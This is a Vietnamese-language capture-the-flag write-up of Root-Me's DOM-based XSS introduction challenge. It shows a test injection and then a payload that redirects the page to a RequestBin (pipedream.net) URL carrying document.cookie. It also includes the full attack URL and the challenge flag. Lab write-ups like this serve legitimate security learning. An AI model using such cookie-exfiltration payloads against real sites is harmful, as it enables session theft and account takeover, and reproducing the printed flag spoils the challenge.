

# WRITE UP

## **Challenge:** [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)

Sau khi thử submit, thì ta có thể xem được script của website:

{width="6.5in" height="2.348611111111111in"}

Lúc này, tham số number sẽ đảm nhận nhận input. Ta thử kiểm tra XSS ở ô này bằng payload **';alert(1)//** thì thấy thành công:

{width="6.5in" height="1.01875in"}

Ta sẽ dùng document.location để redirect website đến HTTP Request và payload để DOM based XSS như sau (ta dùng RequestBin tạo từ <https://requestbin.in>):

**\';document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie;//**

{width="6.5in" height="0.8375in"}

Website đã chuyển hướng thành công, giờ ta sẽ thực hiện POST lên bằng form bên tag contact:

{width="6.5in" height="1.5597222222222222in"}

Ta thực hiện điền payload bên dưới đến POST lên và đợi cookie được trả về tại RequestBin:

<http://challenge01.root-me.org/web-client/ch32/?number=%27;document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie//>

{width="6.5in" height="1.6444444444444444in"}

**Flag:** rootme{XSS_D0M_BaSed_InTr0}
